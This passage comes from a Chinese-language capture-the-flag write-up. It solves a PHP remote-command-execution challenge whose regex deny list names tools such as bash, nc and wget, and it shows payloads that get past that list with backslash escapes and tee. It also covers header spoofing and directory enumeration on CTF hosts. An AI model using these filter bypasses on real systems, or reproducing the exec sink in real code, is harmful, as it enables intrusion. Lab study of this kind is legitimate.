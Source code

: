 然后访问 `./1.php` 发现文件成功写入后尝试用蚁剑连接，连接成功后发现 flag 就在根目录 `/flag` 中。

### finalrce

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['url'])) {
  $url=$_GET['url'];
  if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url)) {
    echo "Sorry,you can't use this.";
  } else {
    echo "Can you see anything?";
    exec($url);
  }
}
```

通过 `tee` 和 管道符 可以将值输出到文件中，构造 Payload 如下

```
url=l\s / | tee 1.html
```

访问 `./1.html` 可以得到以下内容

```
a_here_is_a_f1ag bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

构造以下 Payload 获取 flag ，需要注意 `la` 和 `cat` 被过滤了，需要使用 `\` 进行绕过

```
url=c\at /flllll\aaaaaaggggggg | tee 2.html
```

访问 `./2.html` 就可以得到 flag 了。

### Do\_you\_know\_http

修改以下两项

```http
User-Agent: WLLM
X-Forwarded-For: 127.0.0.1
```

即可得到 flag。

### ez\_unserialize

先用 dirsearch 找找文件\~

```bash
$ python dirsearch.py -u http://node2.anna.nssctf.cn:28104/
[11:43:36] 200 -    0B  - /flag.php
[11:49:43] 200 -   35B  - /robots.txt
```
